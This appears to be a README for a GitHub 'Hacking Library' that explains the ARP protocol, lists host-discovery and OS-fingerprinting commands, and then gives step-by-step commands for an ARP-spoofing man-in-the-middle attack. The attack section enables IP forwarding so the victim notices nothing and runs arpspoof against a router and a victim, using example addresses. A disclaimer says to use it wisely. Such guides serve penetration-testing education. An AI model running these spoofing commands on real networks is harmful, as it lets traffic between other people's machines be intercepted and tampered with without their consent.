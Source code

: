 # Introduction to Hacking Library

The goal of this library is to create an archive of useful tools and how to use them, mostly for:

- Hacking
- Pentests 
- Security

Remember, this is only a guide, use the knowledge here wisely and at your own risk.

Have fun!

# Analysis Tools 

## ARP

The ARP protocol (Address Resolution Protocol) associates every MAC address with an IP address in the local network. The way this works is with a broadcast in the local network, asking every host about their pairs IP/MAC. Every time a broadcast occurs the host sends his own pair IP/MAC besides asking other hosts their pairs, so it can be saved into a cache in every machine.

You can check the cache in your own machine with:

> arp -a

Using ARP protocol you can either scan your local network to discover hosts, revealing their MAC addresses and internet adapter manufacturer:

> sudo arp-scan --interface=eth0 --localnet

or try to guess the OS of the hosts with:

> sudo arp-fingerprint -l

# Attack Tools

## ARP Spoofing

The objective of this attack is to add/replace some entries in the ARP table making the router believe that the attacker is in reality the victim and making the victim believe that the attacker is the router.

![ARP Spoofing Image](/img/ARP%20Spoofing.png)

### Enabling fowarding:

First you need to enable fowarding of packets so the victim doesn't know that something happened:

> sudo sysctl -w net.ipv4.ip_forward=1

or 

> sudo echo 1 > /proc/sys/net/ipv4/ip_forward

but this will disable fowarding when the machine is rebooted.

For permanent fowarding:

> sudo nano /etc/sysctl.conf

then find the line:

```
#Uncomment the next line to enable packet forwarding for IPv4
#net.ipv4.ip_forward=1
```

and delete the "#" in the second line:

```
#Uncomment the next line to enable packet forwarding for IPv4
net.ipv4.ip_forward=1
```

then

> Ctrl o
> Enter
> Ctrl x

and finally run this to apply the changes:

> sudo sysctl -p /etc/sysctl.conf

### Making a man in the middle with Arpspoof:

To make this we will use this command two times:

> sudo arpspoof -i {NETWORK_INTERFACE} -t {TARGET_IP} {IP_YOU_WILL_BE_PRETENDING_TO_BE}

- First to make the router think that our machine is the victim:

> sudo arpspoof -i {NETWORK_INTERFACE} -t {ROUTER_IP} {VICTIM_IP}

Example:

> sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.104

- Then we make the victim think that our machine is the router:

> sudo arpspoof -i {NETWORK_INTERFACE} -t {VICTIM_IP} {ROUTER_IP}

Example:

> sudo arpspoof -i eth0 -t 192.168.0.104 192.168.0.1

and with this we have a man in the middle set.